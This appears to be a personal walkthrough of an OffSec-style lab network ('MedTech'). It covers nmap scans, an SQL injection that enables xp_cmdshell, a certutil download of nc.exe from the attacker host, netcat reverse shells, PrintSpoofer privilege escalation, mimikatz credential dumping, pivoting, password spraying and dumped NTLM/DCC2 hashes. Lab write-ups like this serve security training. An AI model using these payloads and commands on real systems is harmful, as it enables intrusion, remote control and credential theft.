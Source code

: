 windows
```
ping 192.168.177.121
PING 192.168.177.121 (192.168.177.121) 56(84) bytes of data.
64 bytes from 192.168.177.121: icmp_seq=1 ttl=125 time=86.2 ms
64 bytes from 192.168.177.121: icmp_seq=2 ttl=125 time=91.2 ms

```

### rustscan
```
Scanned at 2024-05-23 09:44:00 EDT for 1s

PORT      STATE    SERVICE      REASON
80/tcp    open     http         syn-ack ttl 125
135/tcp   open     msrpc        syn-ack ttl 125
139/tcp   open     netbios-ssn  syn-ack ttl 125
445/tcp   open     microsoft-ds syn-ack ttl 125
5985/tcp  filtered wsman        no-response
47001/tcp open     winrm        syn-ack ttl 125
49664/tcp open     unknown      syn-ack ttl 125
49665/tcp open     unknown      syn-ack ttl 125
49666/tcp open     unknown      syn-ack ttl 125
49667/tcp filtered unknown      no-response
49668/tcp open     unknown      syn-ack ttl 125
49669/tcp open     unknown      syn-ack ttl 125
49670/tcp filtered unknown      no-response
49671/tcp filtered unknown      no-response


```

### nmap
```
kali㉿kali)-[~/Desktop/offsec/med/121]
└─$ sudo nmap -sS -Pn -T4 -sCV -O -A -p80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 192.168.177.121 -oA version.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 09:47 EDT
Nmap scan report for 192.168.177.121
Host is up (0.085s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: MedTech
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (87%)
Aggressive OS guesses: Microsoft Windows Server 2022 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-23T13:48:49
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   74.85 ms 192.168.45.1
2   74.82 ms 192.168.45.254
3   98.79 ms 192.168.251.1
4   98.86 ms 192.168.177.121

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.61 seconds

```

# WEB02
### initial

find login page
tried and tested with SQL

still don't know why I used xp_cmdshell -- **To remote execute commands on MSSQL**

#### enable xp_cmdshell

```
' ;EXEC sp_configure 'show advanced options', 1; RECONFIGURE;-- ';EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--

'; EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -
```

#### transfer nc.exe
```
';EXEC xp_cmdshell "certutil -urlcache -f http://192.168.45.241/nc.exe c:/windows/temp/nc.exe";-- 
```

```
';EXECUTE xp_cmdshell 'C:/Windows/Temp/nc.exe 192.168.45.241 4444 -e cmd.exe';--
```

![[Pasted image 20240601182739.png]]

### creds

![[Pasted image 20240523220300.png]]

**password**
`WhileChirpTuesday218` -------> don't know for what




Version: NetNTLMv2
  Hash:    WEB02$::MEDTECH:1122334455667788:2aa9d016d03bdb69f54ed4234fe50335:0101000000000000c318148b30adda01edb012d6ceb01d8b000000000800300030000000000000000000000000300000d8c929a18f8306528b604ac0f3f091c5301c8c3d9d4689b5c867902e15f0f4230a00100000000000000000000000000000000000090000000000000000000000    


after getting initial foothold on .121 I got few interesting findings

1. MEDTECH NTLMv2
2. SeImpersonatePrivilege enabled
3. pass for something `WhileChirpTuesday218`
4. dual homed IP, definitely will be used for pivot

what should be my steps?

my thinking is to add new user with potato attack and get winrm shell with new admin
### priv esc

```
net use n: \\192.168.45.216\share /user:test test
copy \\192.168.45.216\share\PrintSpoofer.exe
```

work till 2016 printspoofer

SeimpersonatePrivilege
```
.\PrintSpoofer.exe -c "C:/tmp/nc.exe 192.168.45.216 5555 -e cmd"
```

![[Pasted image 20240524012232.png]]

![[Pasted image 20240601183031.png]]

### mimikatz

```
mimikatz.exe privilege::debug "sekurlsa::logonPasswords full" exit
```
Got new hashes

**Domain: medtech.com**

Joe - Flowers1
NTLM     : 08d7a47a6f9f66b97b1bae4178747494
SHA1      : a0c2285bfad20cc614e2d361d6246579843557cd

DWM-1
NTLM     : b6191454048eb6ea7bb3058ed8c088f2
SHA1     : b6813ae6c2316b049456dc02ce0122bd62438a5c

### Ligolo
pivot for 172.16.xx.0/24

```
net use n: \\192.168.45.172\share /user:test test
copy \\192.168.45.172\share\agent.exe
```

### spray
sprayed creds of `Joe` to internal network and .11 is where she is local-admin

# File02

got admin access with `Joe`

### dump lsa with nxc

EDTECH.COM/Administrator $DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7:                                                                          
MEDTECH.COM/yoshi: $DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6: 

MEDTECH.COM/wario:$DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a: 

MEDTECH.COM/joe:$DCC2$10240#joe#464f388c3fe52a0fa0a6c8926d62059c:


### interesting file

got hashes with some file in documents folder

wario                   NTLM: fdf36048c1cf88f5630381c5e38feb8e

goomba              NTLM: 8e9e1516818ce4e54247e71e71b5f436

toad                    NTLM: 5be63a865b65349851c1f11a067a3068

daisy                    NTLM: abf36048c1cf88f5603381c5128feb8e 








